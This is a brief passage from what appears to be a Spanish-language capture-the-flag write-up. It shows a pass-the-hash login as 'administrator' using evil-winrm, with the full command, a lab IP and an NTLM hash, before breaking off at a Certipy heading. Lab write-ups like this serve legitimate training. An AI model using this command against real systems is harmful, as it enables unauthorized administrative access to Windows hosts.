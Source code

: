 ![20240313113403.png](20240313113403.png)

![20240313113424.png](20240313113424.png)

Teniendo el hash, lo que haremos será un `pass the hash` con `evil-winrm` 

## Usuario : administrator

```python
❯ evil-winrm -i 10.10.11.202 -u 'administrator' -H 'A52F78E4C751E5F5E17E1E9F3E58F4EE'
```

![20240313113452.png](20240313113452.png)
### Certipy
